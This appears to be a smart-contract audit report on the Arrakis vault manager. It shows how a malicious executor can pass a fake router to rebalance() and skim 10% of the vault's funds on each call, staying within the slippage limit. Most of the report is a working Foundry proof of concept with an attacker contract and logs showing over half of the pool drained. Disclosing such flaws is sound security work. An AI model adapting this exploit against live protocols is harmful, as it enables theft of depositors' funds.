 Tricky Alabaster Panda

high

# Malicious Executor can use rebalance() to drain the vault in a complex attack (10% each time)

## Summary

The contest README states:

> Executor of ArrakisStandardManager is RESTRICTED during rebalance action on vaults.
> 

This report shows a complex attack done by a malicious `executor`- They can call `rebalance()` with a malicious `router_`, which steals 10% of the funds before swapping the rest and returning it. This reduces the pool TVL by 10% each time, which is within the maxSlippage of 10%. This can be repeated indefinitely, to drain a pool’s assets.

## Vulnerability Detail

The attacker calls `ArrakisStandardManager.rebalance()` , with a `payloads_` parameter that calls the `swap()` function on the module.

Now the `ValantisHOTModule.swap()` function makes the following token approvals, and  arbitrary external call: 

```solidity
if (zeroForOne_) {
    token0.safeIncreaseAllowance(router_, amountIn_);
} 
else {
    token1.safeIncreaseAllowance(router_, amountIn_);
}

(bool success,) = router_.call(payload_);
```

The `router_`  and `payload_` are decided by the executor. Now after this external call, the protocol implements multiple checks to ensure that this external call has returned a sufficient amount of tokens, and that the TVL of the pool has not dropped by much.

**ExpectedMinReturn check (in ValantisHOTModule.swap(), after the router call)**:
<details><summary>Code</summary>

```solidity
if (zeroForOne_) {
    if (balance1 < _actual1 + expectedMinReturn_) { // require(balance1 >= _actual1 + expectedMinReturn_);
        revert SlippageTooHigh();
    }
} else {
    
    if (balance0 < _actual0 + expectedMinReturn_) {
        console.log(balance0);
        console.log(_actual0);
        console.log(expectedMinReturn_);
        revert SlippageTooHigh();
    }
}
```
</details>

**MaxSlippage check (in `ArrakisStandardManager.rebalance()`, after calling `swap()` in the module):**
<details><summary>Code</summary>

```solidity
uint256 vaultInToken1AfterRebalance = FullMath.mulDiv(
    amount0, price0, 10 ** token0Decimals
) + amount1;

uint256 diff = vaultInToken1BeforeRebalance > vaultInToken1AfterRebalance ?
        vaultInToken1BeforeRebalance - vaultInToken1AfterRebalance :
        vaultInToken1AfterRebalance - vaultInToken1BeforeRebalance;

uint256 currentSlippage = FullMath.mulDiv(
    diff,
    PIPS,
    vaultInToken1BeforeRebalance
);

if (currentSlippage > info.maxSlippagePIPS) {
    revert OverMaxSlippage();
}
```
</details>
(Note that `validateRebanace`  is ineffective in preventing this attack since it uses the pool’s price ratio, which only updates during ammSwap and hotSwap, not liquidity provision)

In the `router.call(payload_)`, a malicious executor can pass in their own `ScamRouter` , with the payload calling the function `takeSomeAndThenSwap`  (See PoC for implementation)

It simply takes 10% of the approved `amountIn` tokens, swaps the rest into the outToken, and provides the `amountOut` back to the `ValantisHOTModule` 

This allows the transaction to not revert, since it abides by the slippage bounds.

The attacker can repeat this, stealing 10% from the pool each time.

## Impact

10% of the pool’s liquidity can be stolen in one tx, this can be repeated indefinitely to drain the pool.

NOTE: The impact of this can be enhanced by a malicious public vault owner, who sets the rebalance cooldown to 1 second, and maxSlippage to 10%, as they will be able to drain funds at a quicker rate.

## Proof of Concept

To run the PoC, add the foundry test to `arrakis-modular/test/integration` and run `forge test --mt test_new_looped_profitRebalance -vv`

<details><summary>Foundry Test</summary>

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;

// Foundry Imports
import {console} from "forge-std/console.sol";
import {Vm} from "forge-std/Vm.sol";
import {Test} from "forge-std/Test.sol";

// Arrakis Imports
import {ArrakisStandardManager} from
    "../../src/ArrakisStandardManager.sol";
import {IArrakisMetaVaultPublic} from
    "../../src/interfaces/IArrakisMetaVaultPublic.sol";
import {IArrakisMetaVault} from
    "../../src/interfaces/IArrakisMetaVault.sol";
import {IArrakisStandardManager} from
    "../../src/interfaces/IArrakisStandardManager.sol";
import {IOracleWrapper} from "../../src/interfaces/IOracleWrapper.sol";

// Valantis Imports
import {IValantisHOTModule} from
    "../../src/interfaces/IValantisHOTModule.sol";

// General Imports
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

// Base test
import {ValantisIntegrationPublicTest} from "./ValantisIntegrationPublic.t.sol";

contract PoC_MaliciousExecutor_ExploitsRebalanceSlippage is ValantisIntegrationPublicTest {

    address attacker;
    address rec;
        
    function test_new_looped_profitRebalance() public {
        attacker = makeAddr("attacker");
        rec = makeAddr("rec");

        // Malicious executor's balance before rebalancing
        console.log("[BEFORE]:\n executor's balance- token0: %e, token1: %e", token0.balanceOf(executor), token1.balanceOf(executor));
        
        // Setup Uniswap mock
        // This mock executes trades based on the oracle price used by the protocol
        vm.startPrank(executor);
        UniswapMock uniswap = new UniswapMock(oracle);
        deal(address(token0), address(uniswap), init0*10); // 2000e6 (0: USDC)
        deal(address(token1), address(uniswap), init1*10); // 1e18   (1: WETH)

        deal(address(token0), rec, init0); // 2000e6 (0: USDC)
        deal(address(token1), rec, init1); // 1e18   (1: WETH)

        address m = address(IArrakisMetaVault(vault).module());

        //@e user mints from meta vault
        vm.startPrank(rec);
        token0.approve(m, init0);
        token1.approve(m, init1);

        IArrakisMetaVaultPublic(vault).mint(1e18, rec);
        vm.stopPrank();

        // Setup ScamRouter
        ScamRouter scamRouter = new ScamRouter(token0, token1, address(uniswap), executor);

        //@e Find the vault's rebalance cooldown
        (, uint256 cooldownPeriod,,,,,,) = ArrakisStandardManager(payable(manager)).vaultInfo(vault);

        (uint256 reserves0Before, uint256 reserves1Before) = pool.getReserves();
        console.log("Pool TVL Before: %e USDC", _getPoolTVL(reserves0Before, reserves1Before));

        // Loop to rebalance() multiple times, waiting the cooldown each time
        for (uint256 i = 0; i < 8; i++) {

            // Alternate between zeroToOne and oneToZero swaps
            bool zeroForOne = (i % 2 == 0);

            uint256 amountIn;
            uint256 expectedMinReturn;

            // Calculate expectedMinReturn as 90% of the value of amountIn
            // This extracts maximal value during the rebalance without reverting-
            // since maxSlippage is 10%
            if (zeroForOne) {
                (amountIn, ) = pool.getReserves();
                expectedMinReturn = amountIn * IOracleWrapper(oracle).getPrice0() * 9 / (10 * 10**token0.decimals());
                
            }
            else {
                (, amountIn) = pool.getReserves();
                expectedMinReturn = amountIn * IOracleWrapper(oracle).getPrice1() * 9 / (10 * 10**token1.decimals());
            }

            // This is the payload sent to the `router_` within `HOTModule.swap()`- called from `StandardManager.rebalance()`
            bytes memory router_payload = abi.encodeWithSelector(
                ScamRouter.takeSomeAndThenSwap.selector, 
                zeroForOne, 
                amountIn
                );

            bytes memory payload = abi.encodeWithSelector(
                IValantisHOTModule.swap.selector,
                zeroForOne,
                expectedMinReturn,
                amountIn,
                address(scamRouter),
                0,
                0,
                router_payload // to send to the fake router
            );

            bytes[] memory datas = new bytes[](1);
            datas[0] = payload;
            
            vm.prank(executor);
            IArrakisStandardManager(manager).rebalance(vault, datas);

            // Warp by the cooldown period before the next rebalance
            vm.warp(block.timestamp + cooldownPeriod + 1);
        }
        console.log("[AFTER]:\n executor's balance- token0: %e, token1: %e", token0.balanceOf(executor), token1.balanceOf(executor));

        // Pool reserves
        (uint256 reserves0After, uint256 reserves1After) = pool.getReserves();

        console.log("Pool TVL After: %e USDC\n", _getPoolTVL(reserves0After, reserves1After));
        console.log("Token0 (USDC) Reserves Before->After: %e->%e", reserves0Before, reserves0After);
        console.log("[Pool Reserves]\n Token1 (ETH) Reserves Before->After: %e->%e", reserves1Before, reserves1After);

        uint256 executorTotalValue = _getPoolTVL(token0.balanceOf(executor), token1.balanceOf(executor));

        // Assert that the attacker's TVL + pool's TVL is equal to the original pool TVL
        // This demonstrates that no outside funds have been introduced from the Uniswap mock or elsewhere
        // The attacker has simply extracted more than 50% of the pool's value, exploiting slippage tolerance
        assertEq(
            executorTotalValue + _getPoolTVL(reserves0After, reserves1After), // total TVL after 
            _getPoolTVL(reserves0Before, reserves1Before) // total TVL before
        );

    }
	
		// Helper function to total value of token0 and token1, denominated in token0
    function _getPoolTVL(uint256 a, uint256 b) internal view returns (uint256){
        return a + b * IOracleWrapper(oracle).getPrice1() / 10**token1.decimals();
    }
}

///////////////////////
// ATTACKER CONTRACT //
///////////////////////
contract ScamRouter {
    
    ERC20 public token0;
    ERC20 public token1;

    UniswapMock uniswap;

    address owner;

    constructor(ERC20 t0, ERC20 t1, address _uni, address _owner) {
        token0 = t0;
        token1 = t1;
        uniswap = UniswapMock(_uni);
        owner = _owner;
    }

    function takeSomeAndThenSwap(bool zeroForOne, uint256 amountIn) public {

        if (zeroForOne) token0.transferFrom(msg.sender, address(this), amountIn);

        else token1.transferFrom(msg.sender, address(this), amountIn);

        uint256 profit = amountIn * 10 / 100;
        uint256 remaining = amountIn - profit;

        if (zeroForOne) {
            token0.approve(address(uniswap), amountIn);
            token0.transfer(owner, profit);
        }
        else {
            token1.approve(address(uniswap), amountIn);
            token1.transfer(owner, profit);
        }

        uniswap.swap(remaining, zeroForOne, msg.sender);
    }
}
//////////
// Mock //
//////////
contract UniswapMock {
    IOracleWrapper oracle;

    constructor(address _oracle) {
        oracle = IOracleWrapper(_oracle);
    }

    function swap(uint256 amountIn, bool zeroForOne_, address receiver) public {
        ERC20 tokenIn;
        ERC20 tokenOut;

        if (zeroForOne_) {
            tokenIn = ERC20(ScamRouter(msg.sender).token0());
            tokenOut = ERC20(ScamRouter(msg.sender).token1());
        }
        else {
            tokenOut = ERC20(ScamRouter(msg.sender).token0());
            tokenIn = ERC20(ScamRouter(msg.sender).token1());
        }

        tokenIn.transferFrom(msg.sender, address(this), amountIn);

        uint256 amountToReturn;
        // token0: USDC, token1: ETH 
        if (zeroForOne_) {
            amountToReturn = amountIn * oracle.getPrice0() / (10**tokenIn.decimals());
        }
        else {
             amountToReturn = amountIn * oracle.getPrice1() / (10**tokenIn.decimals());
        }

        tokenOut.transfer(receiver, amountToReturn);

    }
}

```

</details>

<details><summary>Console output</summary>

```bash
Logs:
  [BEFORE]:
 executor's balance- token0: 0e0, token1: 0e0
  Pool TVL Before: 4e9 USDC
  [AFTER]:
 executor's balance- token0: 1.0434062e9, token1: 5.6953279e17
  Pool TVL After: 1.81752822e9 USDC

  Token0 (USDC) Reserves Before->After: 2e9->1.81752822e9
  [Pool Reserves]
 Token1 (ETH) Reserves Before->After: 1e18->0e0
 ```
 
 </details>

 As seen in the console logs, more than 50% of the pool TVL was stolen by the malicious executor after only 8 iterations of the loop.
## Code Snippet

https://github.com/sherlock-audit/2024-03-arrakis/blob/64a7dc6ccb5de2824870474a9f35fd3386669e89/arrakis-modular/src/abstracts/ValantisHOTModule.sol#L376

## Tool used

Manual Review

## Recommendation

Consider using more strict slippage checks, or whitelisting the `router_`
